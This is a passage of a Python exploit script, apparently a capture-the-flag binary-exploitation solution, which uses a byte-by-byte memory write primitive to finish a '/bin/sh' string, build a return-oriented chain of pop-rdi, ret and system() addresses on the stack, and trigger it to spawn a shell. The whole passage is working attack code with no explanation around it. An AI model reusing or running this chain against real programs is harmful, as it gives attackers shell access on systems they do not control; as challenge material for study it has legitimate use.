 ```python
make_and_send_payload(offset, BINSH + 6, b"h", "byte")
make_and_send_payload(offset, BINSH + 7, b"\x00", "byte")

# write address of POP_RDI_RET in libc to MAIN_RET on stack
print(f"WRITING address of POP_RDI_RET ({hex(POP_RDI)}) on stack at {hex(MAIN_RET)}")
make_and_send_payload(offset, MAIN_RET, bytes.fromhex(hex(POP_RDI)[2:])[-1], "byte")
make_and_send_payload(offset, MAIN_RET + 1, bytes.fromhex(hex(POP_RDI)[2:])[-2], "byte")
make_and_send_payload(offset, MAIN_RET + 2, bytes.fromhex(hex(POP_RDI)[2:])[-3], "byte")
make_and_send_payload(offset, MAIN_RET + 3, bytes.fromhex(hex(POP_RDI)[2:])[-4], "byte")
make_and_send_payload(offset, MAIN_RET + 4, bytes.fromhex(hex(POP_RDI)[2:])[-5], "byte")
make_and_send_payload(offset, MAIN_RET + 5, bytes.fromhex(hex(POP_RDI)[2:])[-6], "byte")

# write address of /bin/sh (BINSH) to BINSH_Location on stack
print(f"WRITING address of /bin/sh to {hex(BINSH_Location)}")
make_and_send_payload(offset, BINSH_Location, bytes.fromhex(hex(BINSH)[2:])[-1], "byte")
make_and_send_payload(
    offset, BINSH_Location + 1, bytes.fromhex(hex(BINSH)[2:])[-2], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 2, bytes.fromhex(hex(BINSH)[2:])[-3], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 3, bytes.fromhex(hex(BINSH)[2:])[-4], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 4, bytes.fromhex(hex(BINSH)[2:])[-5], "byte"
)
make_and_send_payload(
    offset, BINSH_Location + 5, bytes.fromhex(hex(BINSH)[2:])[-6], "byte"
)

# write address of RET in libc to RET_Location on stack
print(f"WRITING address of RET ({hex(RET)}) on stack at {hex(RET_Location)}")
make_and_send_payload(offset, RET_Location, bytes.fromhex(hex(RET)[2:])[-1], "byte")
make_and_send_payload(offset, RET_Location + 1, bytes.fromhex(hex(RET)[2:])[-2], "byte")
make_and_send_payload(offset, RET_Location + 2, bytes.fromhex(hex(RET)[2:])[-3], "byte")
make_and_send_payload(offset, RET_Location + 3, bytes.fromhex(hex(RET)[2:])[-4], "byte")
make_and_send_payload(offset, RET_Location + 4, bytes.fromhex(hex(RET)[2:])[-5], "byte")
make_and_send_payload(offset, RET_Location + 5, bytes.fromhex(hex(RET)[2:])[-6], "byte")

# write address of SYSTEM in libc to SYSTEM_Location on stack
print(f"WRITING address of system() ({hex(SYSTEM)}) on stack at {hex(SYSTEM_Location)}")
make_and_send_payload(
    offset, SYSTEM_Location, bytes.fromhex(hex(SYSTEM)[2:])[-1], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 1, bytes.fromhex(hex(SYSTEM)[2:])[-2], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 2, bytes.fromhex(hex(SYSTEM)[2:])[-3], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 3, bytes.fromhex(hex(SYSTEM)[2:])[-4], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 4, bytes.fromhex(hex(SYSTEM)[2:])[-5], "byte"
)
make_and_send_payload(
    offset, SYSTEM_Location + 5, bytes.fromhex(hex(SYSTEM)[2:])[-6], "byte"
)

r.sendlineafter(b">> ", "3")

```